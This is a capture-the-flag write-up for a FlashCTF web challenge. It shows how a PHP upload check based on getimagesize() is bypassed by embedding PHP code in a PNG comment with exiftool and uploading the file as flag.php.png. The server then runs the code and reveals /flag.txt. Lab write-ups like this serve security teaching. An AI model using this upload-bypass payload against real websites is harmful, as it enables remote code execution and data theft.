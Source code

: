 ```yaml
---
layout: post
title: "FlashCTF - Just My Kind Of Type"
date: 2022-09-15
categories: CTF
permalink: /FlashCTF
---
```


If it passed the tests, it's good, right? Thankfully, QA wrote some basic security requirements this time, so the developers had to go back and add some protections around file uploads.

The AppSec team doesn't think this new app is as secure as it should be. Can you check it out? You can access the website here.

The flag is located at /flag.txt on the file system.

XXX

So, based upon the challenge desciption, we know this challenge is going to involve uploading a file, and the only place to do so on the website is via the profile editor. We can choose to upload a new profile image. We can see the website is running php based on the url (http://host1.metaproblems.com:4800/edit_profile.php), so my first thought is to just attempt to upload a simple php script to display the file `flag.txt`. I put the following into a file named `flag.php` and attempt to upload it:
```
<?php
echo file_get_contents("/flag.txt");
?>
```

Of course, this fails with the error "Oh snap! Upload failed! Error: Only PNG files are allowed!".

Next we'll try a simple filename bypass by renaming the file to flag.php.png, but this fails with the error "Oh snap! Upload failed! Error: Only PNG files with a valid size are allowed!". I found a png file on my harddrive from a previous CTF, and attempted to insert the php code after the headers and re-upload, and this time I got a more interesting error.

```"Warning: getimagesize(): PNG file corrupted by ASCII conversion in /var/www/html/edit_profile.php on line 23"```

Now we know that the website is using the php function `getimagesize()` to verify the file type. I did some searching for getimagesize() bypasses, and found that you can inject php code into the comment of a png file and then get the website to execute it. We can do this using exiftool.

```$ exiftool -Comment='<?php echo file_get_contents("/flag.txt"); ?>' flag.png

$ exiftool flag.png
ExifTool Version Number         : 12.40
File Name                       : flag.png
Directory                       : .
File Size                       : 65 KiB
File Modification Date/Time     : 2022:09:10 00:08:02-04:00
File Access Date/Time           : 2022:09:10 00:08:02-04:00
File Inode Change Date/Time     : 2022:09:10 00:08:02-04:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 1127
Image Height                    : 350
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
SRGB Rendering                  : Perceptual
Gamma                           : 2.2
Pixels Per Unit X               : 5669
Pixels Per Unit Y               : 5669
Pixel Units                     : meters
Comment                         : <?php echo file_get_contents("/flag.txt"); ?>
Image Size                      : 1127x350
Megapixels                      : 0.394
```
We rename our file to `flag.php.png` and upload. This time, instead of being greeted with an error, we are greeted with "Awesome! You just uploaded a new profile picture :)". Now we can browse back over to "View Your Profile" and see that no image is displayed. Using the Inspect function in our browser, we can see that the profile image is now pointing to `uploads/profile_images/uUhk3yfmoO/flag.php.png`. We can go directly to this file and be greeted with our flag hidden inside of the PNG data!
```
...Ys%%IR$�5tEXtCommentMetaCTF{your_php_enabled_image/png_is_the_content_to_my_type} �(O��IDATx^�...
```

